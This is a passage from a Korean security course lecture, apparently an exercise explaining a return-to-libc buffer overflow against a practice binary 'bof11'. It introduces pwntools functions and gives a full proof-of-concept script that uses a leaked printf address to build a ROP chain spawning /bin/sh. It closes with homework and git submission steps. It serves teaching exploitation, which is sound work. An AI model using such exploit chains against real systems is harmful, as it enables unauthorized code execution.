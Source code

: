 #### POC 코드

printf 주소값을 받은 후 system 함수와 /bin/sh 문자열의 주소값, "pop rdi ; ret" 과의 거리를 계산해서 주소값을 도출해야 하기 때문에 일반적인 쉘 상에서는 익스플로잇 하기가 어렵고, `pwntool` 이라는 파이썬 패키지를 사용해보자. pwn 이라는 용어는 소유하다는 뜻의 own 에서 파생된 은어로써 권한이 없는 것을 소유해내다 라는 식의 의미로 생각하면 된다. 

##### pwntool

[pwntool](https://github.com/Gallopsled/pwntools) 은 익스플로잇 코드 개발 전용 라이브러리로써 POC 코드, 익스플로잇 코드를 개발할 때 필수적으로 사용되는 라이브러리이다. POC 코드에 필요한 `pwntool` 의 함수들만 간단히 설명을 하고 넘어가자. 

`process(argv)` : 익스플로잇 대상이 되는 실행파일을 실행하고 프로세스를 다룰 수 있도록 `Processes` 인스턴스를 반환한다. 

`recvuntil(delims)` : delims 이 나올 때까지 데이터를 받아서 반환한다. 

`p64(number)` : number 를 64 비트 형식으로 패킹(packing)한다. 

`send(data)` : data 를 프로세스에 입력한다. 

이 함수들을 사용해서 익스플로잇을 시도해보자. `recvuntil` 함수로 'printf() address : ' 라는 문자열까지 데이터를 받은 후 '\n' 까지 데이터를 받으면 정확하게 printf 함수의 주소값을 반환 받을 수 있다. 

그러면 그 주소값을 활용하여 페이로드를 제작한 훟 `send` 함수로 페이로드를 보내서 익스플로잇을 시도한다. 쉘이 실행될 것이 예상되는 시점이기 때문에 `interactive` 함수로 프로세스에 입력 스트림과 출력 스트림을 연다. 

```python
from pwn import *

p = process('./bof11')

p.recvuntil('printf() address : ')
printf_addr = p.recvuntil('\n')
printf_addr = int(printf_addr, 16)

sys_addr = printf_addr + (-66672)
binsh = printf_addr + (1275223)
poprdi = printf_addr + (-214782)
distance_to_returnAddr = 24

exploit = "A" * distance_to_returnAddr
exploit += p64(poprdi)
exploit += p64(binsh)
exploit += p64(sys_addr)
p.send(exploit)

p.interactive()
```

---

## 과제 

### 과제 가이드 

1. 자신의 **security** 디렉토리에 HW-9 디렉토리를 만든다. 

2. [HW-9.md](HW-9.md) 을 다운받아서 HW-9 디렉토리에 저장한다. 

3. HW-9.md 파일의 지시를 따르는 것이 과제이다. 

4. 다 했으면 다음 명령어를 참고해서 커밋 후 푸쉬한다.

5. 월요일에 발표할 수 있을 정도로 과제를 해와야 한다. 

```shell
cd /path/to/security
git add .
git commit -m "complete HW-9!!!"
git push -u origin master
```
